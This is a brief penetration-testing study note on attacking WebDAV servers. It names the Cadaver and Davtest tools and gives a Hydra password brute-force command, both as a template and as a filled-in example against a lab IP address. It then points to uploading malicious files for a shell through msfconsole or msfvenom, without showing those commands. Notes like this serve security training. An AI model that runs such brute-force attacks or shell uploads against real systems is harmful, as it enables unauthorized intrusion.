 - Sometimes the directory is called 'DAV'  
Tools used to exploit:
[[Cadaver]]
[[Davtest]]

## To perform a Brute Force attack on it using <mark style="background: #6A5ACD;">***Hydra***</mark>:

`hydra -L <Users_list> -P <Passwords_list> <Target_Domain_or_IP> http-get <login_forum_location> `  
***<mark style="background: #6A5ACD;">Exampe:</mark>***
`hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.10.15.15 http-get /webdav/`

### **After gaining access to the login page we can now upload malicious files to send commands to the machine.**

- ##### **Using msfconsole for an automatic shell**
- ##### **Manully Using [[msfvenom⚕️]]**
